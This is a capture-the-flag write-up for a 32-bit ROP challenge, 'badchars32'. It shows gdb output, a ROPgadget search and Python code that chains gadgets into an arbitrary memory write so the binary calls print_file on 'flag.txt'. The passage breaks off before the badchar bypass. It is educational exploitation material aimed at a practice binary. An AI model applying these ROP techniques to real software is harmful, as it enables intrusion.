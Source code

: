 # badchars32 writeup
This challenge is similar to write4, but with an added wrinkle. As in write4, we need to find gadgets that give us a write-what-where (arbitrary write primitive), but unlike write4, this challenge will modify the characters `['x', 'g', 'a', '.']` if we pass them as part of our payload. This is very conviently designed, of course, to prevent us from easily writing "flag.txt" into memory.

## The goal
As with write4, our target binary has a PLT stub entry for the `print_file` function which is imported from our companion shared object file (`libbadchars32.so` in this case).

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x0804837c  _init
0x080483b0  pwnme@plt
0x080483c0  __libc_start_main@plt
0x080483d0  print_file@plt
```

Our goal will be to call the `print_file` function (address `0x080483d0`) with the argument `flag.txt`. To do this, we will need to write the string `flag.txt` into memory, which requires:
  1. An arbitrary write primitive
  2. A way to evade the aforementioned "badchars" filtering of 'x', 'g', 'a', and '.'

## Arbitrary write primitive
At the aptly-named `usefulGadgets` symbol address, we find a familiar gadget:

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x08048543  usefulGadgets

(gdb) disas usefulGadgets
...
   0x0804854f <+12>:    mov    DWORD PTR [edi],esi
   0x08048551 <+14>:    ret
```

This gadget, combined with the ability to control edi and esi, gives us the ability to write the four bytes in esi to the address stored in edi. To control edi and esi, we will need another gadget. I used the pwntools `ROPgadget` utility for this:

```
ROPgadget --binary badchars32 | egrep "pop esi|pop edi"
...
0x080485b9 : pop esi ; pop edi ; pop ebp ; ret

```
The above gadget will work well; we just need to put an additional 4-byte dummy value in for ebp. I used `0xdeadc0de` for this, and in every place throughout my code where I needed a dummy value (shoutout to Stephen Sims!).

Now, chaining our two gadgets together to create the arbitrary write primitive (python):
```python
def write_what_where(data, addr):
    if len(data) != 4:
        raise Exception("data length must be 4")

    pop_esi_pop_edi_pop_ebp_ret = b'\xb9\x85\x04\x08'
    mov_dword_ptr_edi_esi       = b'\x4f\x85\x04\x08'
    deadcode = b'\xde\xc0\xad\xde'

    # jump to pop/pop/pop/ret gadget; set up registers for mov call; ret to mov call
    payload = pop_esi_pop_edi_pop_ebp_ret + \
            data + \
            addr + \
            deadcode + \
            mov_dword_ptr_edi_esi
```

The function would then be called like this:
```python
# Choosing 0x0804a050 as my address; more on that later
payload += write_what_where(b'flag', b'\x50\xa0\x04\x08')

```

To write `flag.txt` into memory, we will need to leverage this primitive at least two times. Once to write the first four bytes (`b'flag'`) and once for the second four (`b'.txt'`). I am in the habit of also calling it a third time, to make sure my string is null-terminated (`b'\x00'`) and then I usually write another 3 bytes just for fun, making my third call something like `b'\x00lol'`. Of note, the third call is probably not necessary in my case, as I chose to write data to the `.bss` segment, where almost the whole region of memory is full of null bytes anyways, but I have the third one in there just to be safe.

## Running into the badchars filtering

